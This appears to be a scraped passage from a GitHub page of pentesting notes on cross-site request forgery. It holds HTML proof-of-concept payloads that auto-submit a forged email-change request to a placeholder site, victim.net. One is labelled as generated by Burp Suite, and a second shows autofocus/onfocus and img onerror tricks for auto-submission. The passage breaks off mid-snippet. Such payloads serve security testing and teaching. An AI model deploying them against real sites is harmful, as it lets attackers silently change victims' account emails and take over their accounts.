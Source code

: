 <div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form method="GET" action="https://victim.net/email/change-email"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method=&quot;GET&quot; action=&quot;https://victim.net/email/change-email&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; />
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request" class="anchor" aria-hidden="true" href="#form-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;html&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://victim.net/email/change-email" id="csrfform"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /&gt; &lt;!-- Way 1 to autosubmit --&gt;
      &lt;input type="submit" value="Submit request" /&gt;
      &lt;img src=x onerror="csrfform.submit();" /&gt; &lt;!-- Way 2 to autosubmit --&gt;
    &lt;/form&gt;
    &lt;script&gt;